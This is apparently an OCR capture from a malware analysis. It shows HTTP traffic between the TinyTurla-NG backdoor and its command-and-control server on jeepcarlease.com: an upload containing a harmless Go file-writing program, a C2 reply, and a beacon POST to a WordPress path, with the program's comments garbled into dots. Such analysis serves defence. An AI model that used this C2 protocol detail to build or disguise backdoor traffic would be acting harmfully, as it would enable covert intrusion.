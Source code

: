 ```plain
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 738
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="file"; filename="111.txt"; filename*=utf-8''111.txt
Content-Type: application/octet-stream

package main

import (
    "fmt"
    "os"
)

func main() {
    filePath := "test.txt"

    // ..............................................
    file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        fmt.Println("............:", err)
        return
    }
    defer file.Close()

    // ........
    content := "................\n"
    _, err = file.WriteString(content)
    if err != nil {
        fmt.Println("............:", err)
        return
    }

    fmt.Println("....................")
}
-----
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:40 GMT
Content-Length: 4

rsp:
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 225
Host: jeepcarlease.com

---
```